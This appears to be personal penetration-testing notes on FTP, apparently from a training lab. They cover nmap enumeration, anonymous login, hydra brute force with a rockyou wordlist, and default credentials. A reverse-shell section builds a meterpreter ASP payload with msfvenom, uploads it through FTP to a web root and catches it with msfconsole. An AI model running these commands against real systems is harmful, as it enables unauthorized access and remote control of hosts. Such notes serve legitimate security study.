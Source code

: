 ## FTP
File Transfer Protocol
- Protocol to transfer files between hosts
- port 21
- can be anonymous or authenticated
- login anonymous if allowed
- commonly used for webserver

### Good to know
- binary mode sends files as they are
- ascii mode converts files to ascii
- switch between modes with `binary` and `ascii`


## FTP Commands
```sh
ftp 10.129.228.195
-h help
```
#### Download ALL Files at once
```shell
wget -m --no-passive ftp://anonymous:anonymous@10.129.202.5
tree . #shows the directory structure if we do it in that created folder
```
#### Upload a file
```shell 
touch testupload.txt # on attacker
put testupload.txt #in ftp>
```
#### On ftp shell:
```sh
help #hilfe
dir #show directory
get #download file
cd #change directory
put /home/test/test.txt #upload file
```


### FTP Enumeration
In ftp shell
```shell
status #show some infos
debug #show debug info
trace #show if tracing is on
ls # list directories
```

### Nmap and FTP
```sh
nmap -sV -sC 192.254.1.1 -p21 #default scan find already anonymous login is allowed and read or writeable
sudo nmap -sV -p21 -sC -A 10.129.202.5 #aggresive scan with script and version detection
```
Find all FTP related scripts in nmap
```shell
find / -type f -name ftp* 2>/dev/null | grep scripts
```
Nmap ftp scripts
```
/usr/share/nmap/scripts/ftp-syst.nse
/usr/share/nmap/scripts/ftp-vsftpd-backdoor.nse
/usr/share/nmap/scripts/ftp-vuln-cve2010-4221.nse
/usr/share/nmap/scripts/ftp-proftpd-backdoor.nse
/usr/share/nmap/scripts/ftp-bounce.nse
/usr/share/nmap/scripts/ftp-libopie.nse
/usr/share/nmap/scripts/ftp-anon.nse
/usr/share/nmap/scripts/ftp-brute.nse
```
Nmap cript trace for more informations
```shell
sudo nmap -sV -p21 -sC -A 10.129.14.136 --script-trace #see what nmap exactly send and get in the scripts
```
### searchsploit 
femitter is a ftp server type name
```sh
searchsploit femitter #search for exploits
```

### FTP Annonymous Login
if anonymous ftp login allowed then user username: anonymous
```
username: anonymous
password: any
```

### Login bruteforce
```sh
hydra -l admin -P /usr/share/wordlists/rockyou.txt 192.255.1.231 ftp #bruteforce ftp with rockyou list
-l # username 
-P # passwordlist target protocol
```
```
Google for ftp default login data with the target server version / ftp client name:
- admin: password
- admin: admin
- etc. depending on ftp server version
```
### Reverse Shell over FTP  

1. Create reverse shell with msfvenom
```shell
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.254.1.229 LPORT=4444 -f asp > shell.asp

#asp: if the target is a asp server
```
2. That creates an asp shell script which can be
3. Accepting the shell with metasploit:
```shell
msfconsole -x "use exploit/multi/handler; set payload windows/meterpreter/reverse_tcp; set lhost 192.254.1.228; set lport 4444; run -j"
```
4. Put  the shell.asp in webroot of ftp and try to open in browser.
5. Than open it in browser to execute the shell.

## Ways to interact with ftp beside ftp client
```shell
nc -nv 10.129.14.136 21
telnet 10.129.14.136 21
openssl s_client -connect 10.129.14.136:21 -starttls ftp # ftp over open ssl
```

## vsFTP
is a very often used FTP server here is the configuration parameters descriped
- vsFTP:  https://security.appspot.com/vsftpd.html  
- conf expl: http://vsftpd.beasts.org/vsftpd_conf.html

#### Enumeration
```sh
cat /etc/vsftpd.conf | grep -v "#" #show vsftpd config
cat /etc/ftpusers #show ftp users
 
```

#### Dangerouse Configurations
```
Setting	Description
anonymous_enable=YES	        Allowing anonymous login?
anon_upload_enable=YES	        Allowing anonymous to upload files?
anon_mkdir_write_enable=YES	Allowing anonymous to create new directories?
no_anon_password=YES	        Do not ask anonymous for password?
anon_root=/home/username/ftp	Directory for anonymous.
write_enable=YES	        Allow the usage of FTP commands: STOR, DELE, RNFR, RNTO, MKD, RMD, APPE, and SITE?
```

 10.129.201.55